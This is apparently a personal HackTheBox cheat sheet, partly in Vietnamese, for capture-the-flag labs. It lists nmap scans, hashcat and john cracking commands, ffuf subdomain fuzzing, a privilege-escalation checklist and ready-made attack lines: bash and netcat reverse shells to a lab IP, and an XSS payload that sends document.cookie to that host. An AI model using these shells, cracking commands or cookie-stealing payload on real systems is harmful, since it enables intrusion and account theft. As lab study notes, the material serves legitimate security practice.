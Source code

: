 # HackTheBox

# nmap

```
nmap -A
nmap -A -p-
```

# set hosts

window: C:\Windows\System32\drivers\etc
linux: /etc/hosts

# hash

`hashid hash.txt` để detect loại hash, xong dùng `hashcat`

- brute force theo định dạng:

```
hashcat -a 3 -m 1400 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d
```

- brute force theo wordlist:

```
hashcat -a 0 -m 3200 logan.txt /usr/share/wordlists/rockyou.txt
```

- john:

```
john --format=bcrypt --wordlist=$wordlists/passwords/rockyou.txt hash.txt
```

- `$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`
- SHA, $salt:$pass, salt là chữ số ($d), dùng cyberchef đổi sang format hex để decrypt:
![image](https://github.com/h2oa/HackTheBox/assets/114990730/79fa4fc2-4317-4575-89bb-cda7a30e106a)
```
hashcat -a 0 -m 120 "b8fd3f41a541a435857a8f3e751cc3a91c174362:d" /usr/share/wordlists/rockyou.txt
```

# ffuf

```
ffuf -c -ic -w /usr/share/wordlists/dirb/big.txt -u http://devvortex.htb  -H "HOST:FUZZ.devvortex.htb" -fs 154
```

# reverse shell

thử hết các dạng :)))

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.74/1337 0>&1'
nc -c sh 10.10.14.74 1337
```

```
echo bHM= |base64 -d|bash
```

- Stabilizing the shell:

```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press Enter twice, and then enter:
export TERM=xterm
```

# xss

```
php -S 0.0.0.0:80
python -m http.server 80
<img src=1 onerror=fetch('http://10.10.14.74/'+document.cookie);/>
```

# Kinh nghiệm

- login page: brute force, default account (tùy công nghệ)
- input: SSTI, command injection
- check `/var/mail` lấy thông tin mail nếu có
- fuzz subdomain, directory (`dirb <domain>`), path (`ffuf`)
- vào sqldatase
- `sudo -l` check xem user hiện tại thực hiện được gì với quyền root (search CVE với bất kỳ gì hiện ra trước)
- Thử cả `sudo su` và `su`
- lấy được 1 password thử với tất cả user ssh
- `https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS`
